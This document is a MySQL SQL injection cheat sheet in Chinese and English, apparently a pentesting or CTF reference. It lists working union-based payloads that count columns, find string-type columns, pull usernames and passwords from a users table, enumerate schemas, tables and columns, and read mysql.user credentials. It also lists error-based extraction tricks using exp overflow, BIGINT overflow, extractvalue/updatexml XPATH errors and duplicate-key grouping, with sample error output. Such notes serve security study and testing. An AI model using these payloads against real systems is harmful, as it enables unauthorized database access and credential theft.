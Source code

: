 ## MySQL
#### **`SELECT 欄位名 FROM 庫名.表名 WHERE 條件`**

### Union-Based
Goal: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2` 
- Determining the number of columns
    - union
        - `' UNION SELECT NULL,NULL-- `
        - `' UNION SELECT 1,2,3-- `
        - 因為 UNION 資料型別必須要一致 UNION 才會成功，所以用 `NULL` 會是比較好的 (通用) 
        - 註解 `-- ` (有空白) 或是 `#` 
    - order
        - `' ORDER BY 3-- ` 找最大且沒有錯誤的數字 N
- Finding columns with a useful data type
    - 通常要 leak 的資料是 `string value`，試出哪個欄位是 `string type`
    ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```

- Retrieve interesting data
    - ` ' UNION SELECT username, password FROM users--  `
        - The injection point is a quoted string within the WHERE clause.
        - The database contains a table called users with the columns username and password. 
    - `AND 1=2 UNION SELECT 1, 2, password FROM admin-- `
- Database contents
	* `SELECT * FROM information_schema.tables`
	* `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
    - `union select 1,2,schema_name from information_schema.schemata limit 1,1` 爆資料庫名
    - `union select 1,2,table_name from information_schema.tables where table_schema='mydb' limit 0,1` 爆表名
    - `union select 1,2,column_name from information_schema.columns where table_schema='mydb' limit 0,1` 爆 Column 名
- MySQL User
    - `SELECT CONCAT(user, ":" ,password) FROM mysql.user;`
### Error-Based
- 長度限制
    - 錯誤訊息有長度限制
    - `#define ERRMSGSIZE (512)`
- Overflow
    - MySQL > 5.5.5 overflow才會有錯誤訊息
    - `SELECT ~0` => `18446744073709551615`
    - `SELECT ~0 + 1` => ERROR
    - `SELECT exp(709)` => `8.218407461554972e307`
    - `SELECT exp(710)` => ERROR
    - 若查詢成功，會返回0
        - `SELECT exp(~(SELECT * FROM (SELECT user())x));`
        - `ERROR 1690(22003):DOUBLE value is out of range in 'exp(~((SELECT 'root@localhost' FROM dual)))'`
    - `select (select(!x-~0)from(select(select user())x)a);`
        - `ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'`
        - MySQL > 5.5.53 不會顯示查詢結果
- xpath
    - extractvalue (有長度限制，32位)
        - `select extractvalue(1,concat(0x7e,(select @@version),0x7e));`
        - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
    - updatexml (有長度限制，32位)
        - `select updatexml(1,concat(0x7e,(select @@version),0x7e),1);`
        - `ERROR 1105 (HY000): XPATH syntax error: '~5.7.17~'`
- 主鍵重複
    - `select count(*) from test group by concat(version(),floor(rand(0)*2));`